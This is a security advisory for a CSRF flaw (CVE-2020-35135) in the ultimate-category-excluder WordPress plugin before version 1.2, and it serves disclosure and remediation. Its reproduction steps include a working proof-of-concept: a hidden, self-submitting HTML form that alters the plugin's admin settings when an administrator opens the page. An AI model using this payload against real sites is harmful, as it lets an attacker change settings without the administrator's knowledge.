 ```yaml
---
title: CSRF in ultimate-category-excluder wordpress plugin
date: 2020-12-08
tags:
	- "wordpress"
	- "csrf"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2020-4294/
cves:
	- "CVE-2020-35135"
---
```

## Summary
Affected versions of the ultimate-category-excluder WordPress plugin are vulnerable to a Cross-Site Request Forgery (CSRF) attack in the page `ultimate-category-excluder.php`.

## Product
ultimate-category-excluder wordpress plugin before 1.2

## Impact
An admins that visits a malicious site could change The ultimate-category-excluder setting without his/her knowledge.

## Steps to reproduce
1. Wordpress with vulnerable ultimate-category-excluder plugin installed
2. Admin visits the page:
```
<html><head></head>
<body>
<form style="opacity: 0;" action="http://[wordpress_url]/wp-admin/options-general.php?page=ultimate-category-excluder.php" method="POST">
<input type="text" name="exclude_main[]" value="-1" />
<input type="text" name="exclude_feed[]" value="-1" />
<input type="text" name="exclude_search[]" value="-1" />
<input type="number" name="exclude_archives[]" value='-1' />
<input type="text" name="ksuce" value="true" />
<button>submit</button>
</form>

<script>document.querySelector('form').submit();</script>
</body></html>
```


### Expected result:
Admin setting page will change according to the attacker's input.

## Remediation
Update ultimate-category-excluder to 1.2 or above.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [Changeset](https://plugins.trac.wordpress.org/changeset/2434070)
